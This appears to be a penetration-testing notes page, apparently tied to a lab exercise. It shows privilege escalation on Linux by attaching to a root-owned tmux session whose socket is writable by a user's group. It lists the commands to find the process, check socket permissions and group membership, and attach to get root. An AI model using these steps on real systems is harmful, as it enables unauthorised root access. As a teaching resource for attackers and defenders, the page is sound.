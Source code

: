 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Hijacking Tmux Sessions

Terminal multiplexers such as [tmux](https://en.wikipedia.org/wiki/Tmux) can be used to allow multiple terminal sessions to be accessed within a single console session. When not working in a **tmux** window, we can detach from the session, still leaving it active (i.e., running an **nmap** scan).

For many reasons, a user may leave a **tmux** process running as a privileged user, such as root set up with weak permissions, and can be hijacked. This may be done with the following commands to create a new shared session and modify the ownership.

{% code title="Command" %}
```bash
tmux -S /shareds new -s debugsess
```
{% endcode %}

{% code title="Command" %}
```bash
chown root:devs /shareds
```
{% endcode %}

If we can compromise a user in the `devs` group, we can attach to this session and gain root access.

Check for any running `tmux` processes.

{% code title="Command" %}
```bash
ps aux | grep tmux
```
{% endcode %}

{% code title="Example Output" %}
```bash
root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```
{% endcode %}

Confirm permissions.

{% code title="Target Machine" %}
```shell-session
user@target:~$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```
{% endcode %}

Review our group membership.

{% code title="Target Machine" %}
```shell-session
user@target:~$ id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```
{% endcode %}

Finally, attach to the `tmux` session and confirm root privileges.

{% code title="Command" %}
```bash
tmux -S /shareds
```
{% endcode %}

{% code title="Example" %}
```shell-session
user@target:~$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```
{% endcode %}
